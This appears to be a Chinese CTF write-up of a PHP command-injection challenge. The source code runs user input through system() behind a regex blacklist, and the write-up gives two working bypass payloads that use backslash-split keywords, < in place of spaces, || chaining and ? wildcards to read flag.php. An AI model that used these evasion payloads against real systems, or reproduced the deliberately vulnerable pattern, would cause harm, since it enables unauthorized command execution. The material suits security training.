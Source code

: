 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:42:52
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了 

;

cat

flag

空格

数字

$

*

more

less

head

sort

tail

sed

cut

tac

awk

strings

od

curl

`

%

\x09即水平制表符

\x26即&符号



无回显





### 第一种

利用\绕过字母

利用<绕过空格

利用||绕过无回显

```
?c=ls||
```

![image-20250403155717652](./assets/image-20250403155717652.png)

```
?c=ca\t<fl\ag.php||
```

![image-20250403155651030](./assets/image-20250403155651030.png)





### 第二种

利用?匹配/bin/cat

利用<>绕过空格

利用\绕过字母

利用%0a绕过无回显

```
?c=/bin/ca?<>fl\ag.php
```

![image-20250403155840066](./assets/image-20250403155840066.png)